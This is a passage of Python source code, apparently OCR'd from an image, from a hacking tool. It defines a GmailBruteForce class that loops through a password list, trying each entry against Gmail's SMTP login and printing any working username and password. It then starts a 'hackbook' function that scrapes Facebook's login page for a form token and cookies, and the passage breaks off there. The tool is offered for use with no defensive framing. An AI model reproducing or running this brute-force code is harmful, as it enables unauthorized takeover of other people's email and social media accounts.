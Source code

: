 	    def get_pass_list(self,path):
	        file = open(path, 'r',encoding='utf8').read().splitlines()
	        for line in file:
	            self.passwords.append(line)
	
	    def init_smtplib(self):
	        self.smtp = smtplib.SMTP("smtp.gmail.com",587)
	        self.smtp.starttls()
	        self.smtp.ehlo()
	    
	    def try_gmail(self):
	
	        for user in self.accounts:
	            for password in self.passwords:
	                try:
	                    self.smtp.login(user,password)
	                    print(("\033[1;37mgood -> %s " % user + " -> %s \033[1;m" % password ))
	                    self.smtp.quit()
	                    self.init_smtplib()
	                    break;
	                except smtplib.SMTPAuthenticationError:
	
	                    print(("\033[1;31msorry %s " % user + " -> %s \033[1;m" % password ))
	
	instance = GmailBruteForce()
	
	headers = [('User-agent', 'Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.1) Gecko/2008071615 Fedora/3.0.1-1.fc9 Firefox/3.0.1')]
	
	instance.accounts.append(usr)
	instance.get_pass_list(passlist)
	
	instance.try_gmail()

def hackbook():
	if sys.version_info[0] !=3: 
		sys.exit()
	
	post_url='https://www.facebook.com/login.php'
	headers = {
		'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36',
	}
	payload={}
	cookie={}
	
	def create_form():
		form=dict()
		cookie={'fr':'0ZvhC3YwYm63ZZat1..Ba0Ipu.Io.AAA.0.0.Ba0Ipu.AWUPqDLy'}
	
		data=requests.get(post_url,headers=headers)
		for i in data.cookies:
			cookie[i.name]=i.value
		data=BeautifulSoup(data.text,'html.parser').form
		if data.input['name']=='lsd':
			form['lsd']=data.input['value']
		return (form,cookie)
	